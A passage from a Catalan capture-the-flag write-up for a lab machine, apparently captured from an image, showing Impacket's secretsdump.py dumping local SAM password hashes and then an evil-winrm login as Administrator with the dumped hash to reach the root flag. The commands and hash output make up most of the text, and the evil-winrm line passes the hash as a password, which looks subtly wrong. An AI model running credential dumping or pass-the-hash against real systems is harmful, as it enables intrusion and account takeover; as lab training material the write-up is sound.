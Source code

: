 Ara utilitzarem l'eina "secretsdump.py" per extreure la contrasenya dels fitxers sam i del sistema, la hem tret d'aquest repositori de GitHub: https://github.com/fortra/impacket/blob/master/examples/secretsdump.py .
```
┌──(kali㉿kali)-[~]
└─$ python3 /home/kali/Downloads/secretsdump.py -sam sam -system system LOCAL > contrasenya_admin.txt 
┌──(kali㉿kali)-[~]
└─$ cat contrasenya_admin.txt 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up... 

```

Ara tenim un hash de contrasenya d'usuari administrador que es pot tornar a utilitzar amb evil-winrm per obtenir l'accés root.
```
evil-winrm -i cicada.htb -u 'Administrator' -p 'aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341'
cd ../Desktop
ls
```

Hem anat a Desktop i hem trobat la flag de root, ara ja tenim la flag de root!
